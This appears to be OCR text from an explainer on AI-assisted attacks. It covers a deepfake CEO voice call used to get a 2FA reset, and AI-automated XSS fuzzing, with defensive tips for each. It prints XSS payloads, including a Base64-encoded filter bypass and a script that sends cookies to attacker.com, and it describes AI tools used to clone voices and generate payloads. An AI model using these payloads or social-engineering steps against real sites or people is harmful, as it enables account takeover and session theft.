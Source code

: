 1️⃣ An attacker collects a few seconds of a CEO's voice (from YouTube or company meetings).
2️⃣ They use AI tools (like ElevenLabs) to create a convincing deepfake voice.
3️⃣ The AI calls an employee, pretending to be the CEO:

"Hey, it's John from finance. Urgent! I need you to reset my 2FA so I can log in. I’ll forward the code to you now."

4️⃣ The employee, thinking it's real, resets 2FA, allowing the attacker to take over the account.
✅ How to Defend Against This?

    Implement "callback verification" policies (Employees should verify urgent requests via a separate contact method).
    Use AI voice detection tools (e.g., Microsoft’s Deepfake Detection API).
    Train employees to detect deepfake phishing attempts.

⚡ 2️⃣ AI-Driven Automated XSS Attacks

Instead of manually testing for XSS vulnerabilities, attackers use AI-based fuzzing tools to automate payload discovery.
🔥 Step 1: Using AI to Find XSS Vulnerabilities

🔹 Attackers use tools like:

    Burp Suite's Intruder + AI (to test XSS payloads at scale).
    AutoXSS (GPT-4-powered) (to generate novel XSS payloads).
    ZAP Proxy + Machine Learning (to predict vulnerable inputs).

🔴 Step 2: Automating XSS Attacks

Attackers use AI to generate payloads based on the target application’s security filters.
Example: Standard XSS Payload

<img src=x onerror=alert('XSS')>

🔹 If blocked, AI automatically tests new variations, such as:

<img src=1 onerror="eval(atob('YWxlcnQoJ1hTUycp'));">

(This encodes alert('XSS') in Base64 to bypass filters)
🔥 Step 3: AI-Generated Contextual XSS Payloads

Modern AI can analyze the website's JavaScript and generate XSS payloads that blend into the environment.
Example: AI-Adaptive XSS Attack

If the site uses:

document.write(userInput);

AI will generate a custom payload to inject JavaScript without triggering security filters:

"><script>window.location='http://attacker.com/steal?cookie='+document.cookie</script>

👉 AI continuously refines the attack until it bypasses the security system.
✅ How to Defend Against AI-Powered XSS Attacks

    Use AI-based security tools like Cloudflare Bot Protection to detect automated attack patterns.
    Implement rate-limiting to prevent AI fuzzing tools from sending thousands of payloads.
    Use strict CSP rules to block inline JavaScript execution.
